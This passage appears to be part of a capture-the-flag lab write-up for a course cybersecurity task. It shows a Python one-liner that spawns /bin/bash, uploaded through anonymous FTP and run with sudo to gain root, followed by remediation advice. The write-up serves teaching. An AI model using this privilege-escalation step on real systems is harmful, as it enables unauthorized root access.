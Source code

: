```
```
import os;os.system('/bin/bash')
```

Then uploaded the script via ftp and ran it.

```
sudo python3.5 python_script.py
```

Now I had root access and could access the flag.

![flag](/pic/flag.png)

### How to fix the vulnerability:
- Disable anonymous login for FTP or close the port 21 if not needed.
- Restrict sudo access to only necessary users.
- Do not store important information in easily accessible directories.

## Task Documentation
- [Task Description](https://github.com/01-edu/public/tree/master/subjects/cybersecurity/local)
- [Audit Questions](https://github.com/01-edu/public/tree/master/subjects/cybersecurity/local/audit)
